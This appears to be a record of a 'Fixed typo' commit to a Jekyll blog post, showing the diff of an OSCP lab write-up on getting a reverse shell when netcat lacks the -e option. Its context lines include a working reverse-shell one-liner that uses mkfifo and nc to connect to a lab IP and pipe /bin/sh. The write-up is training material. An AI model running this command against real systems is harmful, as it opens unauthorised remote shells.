

Before and after one commit to jkeuper/jkeuper.github.io, a Jekyll site: the page built from _posts/2017-08-26-netcat-without-e.md, in a window 1280 px wide and 1400 px high, scrolled down 664 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Fixed typo

````diff
--- a/_posts/2017-08-26-netcat-without-e.md
+++ b/_posts/2017-08-26-netcat-without-e.md
@@ -12,7 +12,11 @@ Recently in my OSCP course, I was struggeling a few hours to get a reversed shel
 <img src="/images/posts/netcat_freebsd.jpg"
      alt="Netcat on FreeBSD"
      class="media pull-right img-thumbnail">
-I immediately found that netcat was installed, but ofcourse [without the e-option](https://www.google.nl/search?q=netcat+GAPING_SECURITY_HOLE). All references to netcat without -e suggest you use  After trying harder for many many many tries, I finally came up with the following simple solution.
+I immediately found that netcat was installed, but ofcourse [without the e-option](https://www.google.nl/search?q=netcat+GAPING_SECURITY_HOLE).
+All references to netcat without -e suggest you use a backpipe
+to relay standard output from commands piped from netcat to `/bin/bash`
+back into netcat. After trying harder for many many many tries, I finally
+came up with the following simple solution.
 
 1. Use _tail -f_ to feed commands from a temporary file to bash. (Using _-n 0_ to ignore any current content of the temporary file.)
 2. Redirect the output of the shell command to netcat.
@@ -40,6 +44,7 @@ Ofcourse, after having rooted the machine, I was still wondering whether other o
 mkfifo pipe; nc -nv 10.11.0.13 443 < pipe | /bin/sh 2>pipe >pipe
 ```
 
+## Wrap up
 To wrap up, which things slowed me down finding a way to obtain a reverse shell?
 1. Not understanding the _mkfifo pipe_ command. This command makes a pipe in the _current_ directory. So not having any rights there, just really does not help...
 2. Forgetting that the & character should be url encoded _and_ not by using &amp;. This made me lose the stderr output, that just really does not help either...
````
